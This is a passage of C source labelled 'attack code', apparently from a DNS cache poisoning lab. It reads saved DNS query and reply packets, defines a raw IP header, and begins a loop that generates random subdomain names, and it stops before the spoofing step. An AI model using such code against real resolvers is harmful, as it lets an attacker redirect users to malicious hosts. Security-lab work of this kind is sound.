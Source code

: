 
### c语言攻击代码

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/socket.h>

#define MAX_FILE_SIZE 2000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);


int main()
{
  long i = 0;

  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("query.bin", "rb");
  if (!f_req) {
     perror("Can't open 'query.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("reply.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'reply.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";
  unsigned short transaction_id = 0;
  while (1) {
    // 构造长度为5的二级域名
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];
```